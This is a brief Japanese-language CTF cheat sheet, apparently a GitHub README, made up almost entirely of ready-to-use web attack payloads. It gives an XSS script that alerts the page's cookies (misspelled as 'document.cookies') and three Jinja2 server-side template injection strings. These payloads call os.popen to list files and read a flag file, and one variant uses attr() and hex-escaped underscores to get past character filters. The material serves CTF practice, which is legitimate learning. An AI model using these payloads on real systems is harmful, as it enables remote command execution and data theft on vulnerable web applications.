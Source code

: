 # CTFチートシート
## XSS
通常バージョン
```javascript:XSS
<script>
  alert(document.cookies);
</script>
```
## SSTI:
問題にどこにファイルがあるかわからない時には
```Python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```Python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```Python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、*flag*だとする
